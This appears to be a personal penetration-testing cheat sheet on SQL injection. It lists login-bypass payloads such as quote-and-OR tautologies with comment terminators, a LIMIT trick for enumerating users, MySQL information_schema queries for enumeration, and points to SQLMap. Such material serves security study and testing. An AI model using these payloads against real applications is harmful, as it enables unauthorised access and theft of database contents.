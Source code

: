 # SQL Injection

This exploit takes advantage of the interaction of a server application with a backend database.  If inputs are not correctly sanitised, then an attacker can modify a query sent to a database and use it to perform data exfiltration or break application logic.

![](https://imgs.xkcd.com/comics/exploits_of_a_mom.png)

## Login Bypasses

For login forms, if they're vulnerable to SQL Injection, the options can range from data exfiltration, to simply bypassing the login forms entirely. Note that the comment type for SQL databases can vary, so it's worth trying both `--` and `#`.  A number of the below are worth trying:

```
' or '1'='1
-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
```

**Source**: [https://xapax.gitbooks.io/security/content/sql-injections.html](https://xapax.gitbooks.io/security/content/sql-injections.html)

If the backend code is only expecting a single result from the query, a number of the above will fail.  If this is the case then using `LIMIT 0,1` at the end of the expression will reduce the result returned to a single element.  You can then vary the first parameter to enumerate different users.

## Database Enumeration

### MYSQL

```sql
select column_name from information_schema.columns
select table_name from information_schema.tables
```

# Tooling

There's not much to mention here other than [SQLMap](https://github.com/sqlmapproject/sqlmap/wiki/Usage), which is quite disgusting in how well it works.  Pointing it at a remote url will cause the application to enumerate and then return any found injection points.

## Further Reading

[OWASP - SQL Injection](https://www.owasp.org/index.php/SQL_Injection)  
[HackTheBox - Charon](https://www.gitbook.com/book/reboare/booj-security/edit#)

